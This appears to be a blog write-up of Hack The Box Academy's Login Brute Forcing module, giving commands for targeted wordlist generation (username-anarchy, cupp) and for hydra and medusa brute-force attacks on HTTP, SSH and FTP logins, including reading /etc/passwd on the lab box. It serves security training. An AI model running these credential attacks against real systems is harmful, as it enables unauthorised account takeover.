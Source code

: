 ```yaml
---
layout: post
title:  "Hack The Box - Academy - Login Brute Forcing"
description: "Explore this detailed walkthrough of Hack The Box Academy's Login Brute Forcing module. Learn effective techniques to perform login brute-force attacks, discover common vulnerabilities, and elevate your penetration testing skills with step-by-step insights from Zwarts Sec."
date:   2024-10-26 10:51
image:  /images/htb/login-brute-forcing/logo.png
tags:   [authentication,cbbh,brute-forcing]
categories: [htbacademy]
---
```


### Explore this detailed walkthrough of Hack The Box Academy's Login Brute Forcing module.

>
<b>Links:</b>
<br/>
<a href="https://academy.hackthebox.com/module/details/57">Login Brute Forcing</a><br/>
<a href="https://jacozwarts.github.io/images/htb/login-brute-forcing/Login_Brute_Forcing_Module_Cheat_Sheet.pdf">Login Brute Forcing - Cheat Sheet</a><br/>
<a href="https://academy.hackthebox.com/module/57/section/504">Hydra - Cheat Sheet</a><br/>

<br/>

### Notes:
#### Command to match passwords with min requirements using grep:

```
grep -E '^.{8,}$' {TEXTFILE.txt} > {RESULTS.txt}
```

#### Custom Wordlists:
```
sudo apt install ruby -y
```
```
git clone https://github.com/urbanadventurer/username-anarchy.git
```
`Use username-anarchy to generate possible usernames:`
```
./username-anarchy Jan van Zyl > jan_van_zyl_usernames.txt
```

![username-anarchy result](/images/htb/login-brute-forcing/username-anarchy-result.png)

`Install cupp`:
```
sudo apt install cupp -y
```
```
cupp -i
```

`Grep command to filter passwords to meet min requirements:`
```
grep -E '^.{6,}$' jan_van_zyl.txt | grep -E '[A-Z]' | grep -E '[a-z]' | grep -E '[0-9]' | grep -E '([!@#$%^&*].*){2,}' > jan_van_zyl-filtered.txt
```
`Hydra post example:`
```
hydra -L jan_van_zyl_usernames.txt -P jan_van_zyl-filtered.txt IP -s PORT -f http-post-form "/:username=^USER^&password=^PASS^:Invalid credentials"
```
<hr/>

## Skills Assessment
><b>Overview:</b>
The first part of the skills assessment will require you to brute-force the the target instance. Successfully finding the correct login will provide you with the username you will need to start Skills Assessment Part 2.

### Part 1: What is the password for the basic auth login?

```
hydra -L /usr/share/wordlists/seclists/Usernames/top-usernames-shortlist.txt -P /usr/share/wordlists/seclists/Passwords/2023-200_most_used_passwords.txt {TARGET_IP} http-get / -s {TARGET_PORT}
```

### Part 2: What is the username of the ftp user you find via brute-forcing?

#### Bruteforce ssh using medusa

```
medusa -h {TARGET_IP} -n {TARGET_PORT} -u {PART1_USERNAME} -P /usr/share/wordlists/seclists/Passwords/2023-200_most_used_passwords.txt -M ssh -t 3
```

`Connect to ssh`
```
ssh {ssh_username}@{TARGET_IP} -p {TARGET_PORT}
```

To find the username I investigated the `/etc/passwd` file.

#### Bruteforce ftp using medusa:
```
medusa -h 127.0.0.1 -u {USERNAME} -P {PASSWORD_WORDLIST} -M ftp -t 5
```
`Note use the password.txt file found on the box.`

### Part 2: What is the flag contained within flag.txt

#### Connect to ftp:
```
ftp ftp://{USERNAME}:{PASSWORD}@{SERVER}
```

#### Download flag.txt
```
get <remote-file-path> <local-file-path>
```
<hr/>